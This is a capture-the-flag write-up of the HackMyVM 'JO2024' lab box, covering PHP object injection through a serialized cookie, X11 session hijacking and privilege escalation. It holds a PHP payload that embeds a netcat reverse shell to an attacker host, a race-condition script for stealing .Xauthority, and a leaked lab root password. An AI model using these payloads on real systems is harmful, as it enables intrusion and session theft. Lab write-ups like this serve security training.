




# HackMyVM: JO2024 (HMV) - Writeup

**Author:** Om Chaudhari (MRWhiteCap)</br>
**Platform:** [HackMyVM](https://hackmyvm.eu/)

**Difficulty:** Easy/Medium</br>
**Skills:** PHP object injection, cookie manipulation, reverse shell, X11 session hijacking (`.Xauthority` race condition), screenshot extraction via `xwd`, sudo privilege abuse, JS console exploitation

---
## Recon

```bash
sudo nmap -sC -sV 192.168.0.105
```
Two open ports: <br>`22/tcp` (OpenSSH 9.2p1 Debian) and <br>`80/tcp` (Apache 2.4.61, hosting a "Paris 2024 Olympic Games" themed site).

## Web Enumeration & Cookie Analysis

- Browsed to `http://jo2024.hmv/Preferences.php` and noticed the server was setting a cookie containing a **base64-encoded serialized PHP object**.
- Crafted a malicious `UserPreferences` object to inject into the cookie:
  ```php
  <?php
  class UserPreferences {
          public $language = "id";
  }
  $malObj = new UserPreferences();
  $malObj = base64\_encode(serialize($malObj));
  echo $malObj;
  ?>
  ```
- Swapped the generated payload into the cookie and sent the request, confirming the site was vulnerable to **PHP Object Injection**.

## Gaining a Foothold

- Weaponized the object injection to trigger a **Netcat reverse shell**, landing a connection back on the attacking machine as `www-data`.
  ```php
    <?php
      class UserPreferences {
              public $language = "nc -e /bin/bash attacker-ip 4444";
      }
      $malObj = new UserPreferences();
      $malObj = base64\_encode(serialize($malObj));
      echo $malObj;
    ?>
  ```
  

## X11 Session Hijacking

- While enumerating from the `www-data` shell, discovered a `.Xauthority` file sitting in a `/home/vanity/` directory.
- Since the file was momentarily accessible during a backup/copy window, used a small race-condition script to grab it before permissions reset:
    ```bash 
    #race.sh
    #!/bin/bash
    while true ; do
            cp /backup/.Xauthority . 2>/dev/null
            [[ $? -eq 0 ]] && echo "OK" && exit 0
    done
    ```
- Copied the captured `.Xauthority` into `/dev/shm` and pointed the `XAUTHORITY` environment variable at it to interact with the machine's local X11 display from the remote session.
  > Reference: [HackTricks — Pentesting X11](https://book.hacktricks.xyz/network-services-pentesting/pentesting-x11)
- Captured a screenshot of the active display:
  ```bash
  xwd -root -screen -silent -display :0 > screenshot.xwd
  ```
- Pulled the `.xwd` file to the attacking machine and converted it to `.png` for viewing — the screenshot revealed a **password for the user `vanity`**.
  ```bash
    convert screenshot.xwd screenshot.png
  ```
- Logged in via SSH as `vanity` using the recovered credentials.

## Privilege Escalation

- Checked available sudo rights with `sudo -l`, which showed a script/binary allowed to run as root.
  
- Inspecting the file revealed it was tied to a service running on **port 8000**.
- Executed the sudo entry to spin up the service, then browsed to the port 8000 webpage — direct access to the underlying PHP file was **forbidden**.
- Reviewing the page's client-side source revealed a JavaScript function, `activateFeature()`.
  
- Calling `activateFeature()` directly from the browser console **leaked the root password**.
  

- Used the disclosed credentials to escalate:
  ```bash
  su root
  Password: LightningBolt123
  ```
## Key Takeaways

- Serialized objects reflected in cookies are a strong signal for **PHP Object Injection** — always test with a crafted payload before assuming they're opaque tokens.
- Backup directories can create brief windows of exposure for sensitive files like `.Xauthority`; race conditions can be scripted to catch them.
- A valid `.Xauthority` file enables full interaction with a user's X11 session, including screenshotting the desktop with `xwd`.
- Client-side JavaScript should always be reviewed — functions exposed to the console (like `activateFeature()`) can leak secrets never meant to be called manually.
- `sudo -l` is essential for privesc enumeration; scripts allowed to run as root are often the shortest path to full compromise.

> 📖 **Original Medium Article:**
> https://medium.com/@mrwhitecap/hackmyvm-jo2024-<slug-here>
